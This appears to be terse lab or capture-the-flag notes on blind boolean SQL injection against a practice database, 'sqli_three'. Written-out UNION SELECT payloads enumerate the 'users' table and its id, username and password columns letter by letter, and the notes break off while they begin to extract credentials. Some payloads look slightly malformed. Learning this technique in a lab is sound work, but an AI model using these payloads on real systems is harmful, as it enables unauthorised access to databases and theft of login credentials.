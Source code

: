 
now iterate for the table names using same method

- `admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';-- `

- ` 'a%;--` returns false, no tables database that start with a

iterate over letters, numbers, characters to find true matches

- `admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';-- `


we have database name and table name

now iterate column names for login credentials
- `information_schema`

- `admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users' and column_name like 'a%'; `

returns true
- 'i%'
- 'id%'

now add at the end for found columns ` and column_name != 'id';`
continue process

```
u%
us%
use%
user%  not users
usern%
userna%
usernam%
username%

that is 2 columns, need to find 1 more for 3

p%
pa%
pas%
pass%
password%  number 3
```



- database name: sqli_three
- table name: users
- columns: id, username, password


now, find the login credentials

- `admin123' UNION SELECT 1,2,3 from users where username like 'a% `

- returns true
